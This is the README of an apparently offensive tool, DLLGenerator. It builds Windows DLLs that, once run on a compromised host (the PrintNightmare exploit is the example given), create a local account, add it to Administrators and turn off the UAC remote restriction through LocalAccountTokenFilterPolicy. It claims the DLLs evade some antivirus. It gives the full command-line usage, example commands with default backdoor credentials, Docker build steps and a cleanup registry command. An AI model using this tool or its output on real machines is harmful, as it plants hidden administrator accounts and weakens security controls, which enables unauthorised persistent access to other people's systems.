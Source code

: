 # DLLGenerator

## What ? 

Dllgenerator is a quick tool to generate DLL, it is designed to be quickly effective. 

## Why ? 

Sometimes you can only execute one DLL on a remote machine, and you have no connect back possible because of AV (like in the printnightmare exploit).

To bypass this you can : 
 - Create a local account
 - Add your local account to Administrators ( or Administrateurs 🇫🇷)
 - Disable UAC control 

Seems easy no ? 
In fact it is ! But it's boring to keep one file somewhere and don't remember how it works.
And one day you remove one line (uac for example) and you forgot it ..

## How ? 

Dllgenerator is based on a template file that (on july 2022) still bypass some AV. 
It takes your input and generate a sexy DLLFile with it. 
DLL is not encoded or whatever, but you may consider put it in a wrapper. 

## Dependency 

A cross compilator `mingw-w64-gcc` is used by default but you can customise the `--compilator` parameter.


## Man 

```
python generator.py 
usage: generator.py [-h] [--action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]] [--username USERNAME] [--password PASSWORD] [--group GROUP]
                    [--wrapper WRAPPER] [--compliator COMPLIATOR] [--output OUTPUT]

______ _ _                                   _             
|  _  | | |                                 | |            
| | | | | |   __ _  ___ _ __   ___ _ __ __ _| |_ ___  _ __ 
| | | | | |  / _` |/ _ | '_ \ / _ | '__/ _` | __/ _ \| '__|
| |/ /| | | | (_| |  __| | | |  __| | | (_| | || (_) | |   
|___/ |_|_|  \__, |\___|_| |_|\___|_|  \__,_|\__\___/|_|   
              __/ |                                        
             |___/                                         
        Version : 1.0
        Author : shoxxdj

options:
  -h, --help            show this help message and exit
  --action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]
                        Main action
  --username USERNAME, -u USERNAME
                        Your username
  --password PASSWORD, -p PASSWORD
                        Your password matching the rules
  --group GROUP, -g GROUP
                        The group, tips for FR it's Administrateur
  --wrapper WRAPPER, -w WRAPPER
                        A command wrapper
  --compliator COMPLIATOR, -c COMPLIATOR
                        A C compilator : 'i686-w64-mingw32-gcc -lnetapi32' is an option
  --output OUTPUT, -o OUTPUT
                        path and name of your dll

```

### Create your first DLL 

```
python generator.py --action create_user add_to_group unset_uac
```
This will : 
- Create a local account : hoppy / H0pBreWedW1thl0v3 
- Add the account hoppy to group Administrators
- Set the regitry key to disable the functionnality in UAC that prevent remote connection
- Output as hoppy.dll in local directory

### Create a custom DLL 
```
python generator.py --action create_user add_to_group -u malt -p Il0v3b33r5 -g BrewersGroup -o /tmp/beer.dll
```
This will :
- Create a local account malt / Il0v3b33r5
- Add the account malt to BrewersGroup
- Output to /tmp as beer.dll


### Docker
``` 
docker build -t dllgenerator .
docker run -it --rm -v $PWD:/dllgenerator dllgenerator:latest --action create_user add_to_group unset_uac --output ./test.dll
```

### WARNING

Don't forget to clean the target machine ! Delete the user and delete the registry key if created

```
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
```
